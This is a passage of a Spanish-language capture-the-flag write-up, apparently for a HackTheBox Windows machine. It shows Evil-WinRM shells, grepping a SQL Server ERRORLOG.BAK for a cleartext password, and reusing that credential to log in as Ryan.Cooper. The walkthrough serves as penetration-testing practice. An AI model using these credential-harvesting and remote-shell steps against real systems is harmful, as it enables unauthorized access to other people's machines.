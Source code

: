 ```bash

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sql_svc\Documents> whoami
sequel\sql_svc
*Evil-WinRM* PS C:\Users\sql_svc\Documents> 
```
## Movimiento Lateral

Despues de estar un rato enumerando el sistema me encontre un archivo interesante de logs de mssql.
```bash
*Evil-WinRM* PS C:\SQLserver\logs> dir


    Directory: C:\SQLserver\logs


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         2/7/2023   8:06 AM          27608 ERRORLOG.BAK


*Evil-WinRM* PS C:\SQLserver\logs> 
```
Si nos traemos este archivo a nuestra maquina y filtramos por password podemos ver credenciales en texto claro del usuario Ryan.Cooper
```bash
❯ cat data.txt |grep -i 'password'
2022-11-18 13:43:06.75 spid18s     Password policy update was successful.
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
```
Usemos estas credenciales para conectarnos con evil-winrm
```bash
❯ evil-winrm -i 10.10.11.202 -u 'Ryan.Cooper' -p 'NuclearMosquito3'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> whoami
sequel\ryan.cooper
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> 
```
